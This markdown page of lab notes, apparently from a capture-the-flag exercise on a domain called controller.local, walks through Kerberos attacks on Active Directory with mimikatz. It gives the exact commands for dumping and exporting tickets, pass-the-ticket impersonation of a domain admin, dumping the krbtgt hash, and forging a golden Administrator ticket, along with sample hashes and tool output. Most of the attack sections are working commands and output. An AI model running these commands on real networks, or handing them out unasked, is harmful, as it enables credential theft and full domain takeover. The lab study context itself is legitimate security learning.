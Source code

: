 The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin.
- The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin.

```
cd \Downloads
mimikatz.exe
privilege::debug      # output 20 = admin priv , all good

sekurlsa::tickets /export    # exports all .kirbi tickets

exit, look for administrator tickets

kerberos::ptt <ticket>

kerberos::ptt [0;182a4b]-1-0-40a50000-CONTROLLER-1$@GC-
CONTROLLER-1.CONTROLLER.local.kirbi             # type the whole thing

```


## Golden/Silver ticket attacks

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however well be using mimikatz in order to create a silver ticket.

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet.
-  stealth = silver ticket, limited to the service targeted
- silver = domain's SQL server, kerberoast that service , dump the service hash, impersonate the TGT to get TGS ticket for SQL => SQL service access

A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients.
- if you impersonate this account and make a golden ticket, you can make any service ticket

Golden/Silver ticket attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain admin
- for gold dump the `krbtgt` ticket 
- for silver dump any service or domain admin ticket

dump the `krbtgt`
```
cd \Downloads
mimikatz.exe
privilege::debug
lsadump::lsa /inject/name:krbtgt     # dumps the hash

NTLM : 72cd714611b64cd4d5550cd2759db3f6           # paste /krbtgt: <here>
aes128_hmac (4096) : 88cc87377b02a885b84fe7050f336d9b

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103


User      : Administrator 
Domain    : controller.local
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 1/12/2024 11:49:45 AM ; 1/9/2034 11:49:45 AM ; 1/9/2034 11:49:45 AM 
-> Ticket : ticket.kirbi

 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
```